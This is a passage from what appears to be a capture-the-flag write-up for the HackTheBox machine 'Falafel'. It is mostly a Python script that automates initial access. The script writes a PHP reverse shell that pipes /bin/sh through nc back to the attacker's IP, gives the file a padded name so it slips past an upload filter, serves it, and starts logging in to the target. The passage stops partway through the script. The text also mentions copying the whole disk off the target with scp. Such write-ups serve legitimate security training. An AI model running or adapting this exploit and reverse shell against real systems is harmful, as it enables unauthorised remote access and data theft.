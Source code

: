 ### Get Flag - exfil device

It’s also possible to just scp the entire `/dev/sda1` back to your kali box and mount it there.

## Other Stuff

### get\_falafel\_shell.py

I scripted the initial access exploit so that I can start a `nc` listener, run it, and have shell:

```

#!/usr/bin/env python3

import argparse
import http.server
import os
import re
import requests
import socket
import sys
from threading import Thread

def get_my_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.connect(("10.10.10.1", 80))
    return s.getsockname()[0]

# Parse args
parser = argparse.ArgumentParser()
parser.add_argument('--web-port', '-w', help='webserver port', default=8082, type=int)
parser.add_argument('-n', '--nc-port', help='nc port', default=8003)
parser.add_argument('--web-dir', '-d', help='location to serve files from', default='/tmp')
parser.add_argument('--local-ip', '-i', help='local ip', default=None)
args = parser.parse_args()

filename = 'B' * 232 + '.php.png'
falafel_ip = "10.10.10.73"
falafel_url = "http://" + falafel_ip
ip = args.local_ip or get_my_ip()
web_port = args.web_port
nc_port = args.nc_port
rev_shell = '''<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f");?>'''.format(ip, nc_port)
web_dir = args.web_dir

def start_server():
    os.chdir(web_dir)
    with open(filename, 'w') as f:
        f.write(rev_shell)
    server_address = ('0.0.0.0', web_port)
    httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
    httpd.serve_forever()

# start webserver
print("[*] Starting webserver thread from {} on port {}".format(web_dir, web_port))
thread = Thread(target=start_server, daemon=True)
thread.start()

# Login
print("[*] Getting logon.php with phpsession cookie")
s = requests.session()
s.get(falafel_url + "/login.php")
```